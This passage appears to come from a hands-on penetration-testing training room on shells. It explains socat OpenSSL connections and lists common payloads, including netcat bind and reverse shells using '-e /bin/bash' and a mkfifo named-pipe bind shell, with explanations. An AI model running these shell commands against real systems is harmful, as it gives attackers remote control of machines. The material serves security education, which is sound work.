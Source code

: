 `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

Again, note that even for a Windows target, the certificate must be used with
the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target.
As usual, the target is on the right, and the attacker is on the left:

This technique will also work with the special,
Linux-only TTY shell covered in the previous task -- figuring out the syntax
for this will be the challenge for this task.
Feel free to use the Linux Practice box(deployable at the end of the room)
to experiment if you're struggling to obtain the answer.

## Common Shell Payloads

We'll soon be looking at generating payloads with msfvenom,
but before we do that, let's take a look at some common payloads using the
tools we've already covered.

A previous task mentioned that we'd be looking at some ways to use netcat as a
listener for a bindshell, so we'll start with that.
In some versions of netcat (including the `nc.exe` Windows version included with
Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself:
`netcat-traditional`) there is a `-e` option which allows you to execute a process
on connection. For example, as a listener:

`nc -lvnp <PORT> -e /bin/bash`

Connecting to the above listener with netcat would result in a bind shell
on the target.

Equally, for a reverse shell,
connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a
reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen
to be very insecure (funny that, huh?).
On Windows where a static binary is nearly always required anyway,
this technique will work perfectly.
On Linux, however, we would instead use this code to create a listener for a
bind shell:

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

The following paragraph is the technical explanation for this command.
It's slightly above the level of this room, so don't worry if it doesn't make
much sense for now -- the command itself is what matters.

*The command first creates a* [named pipe](https://www.linuxjournal.com/article/2156)
*at* `/tmp/f`.
*It then starts a netcat listener,
and connects the input of the listener to the output of the named pipe.
The output of the netcat listener (i.e. the commands we send)
then gets piped directly into sh, sending the stderr output stream into stdout,
and sending stdout itself into the input of the named pipe,
thus completing the circle.&*
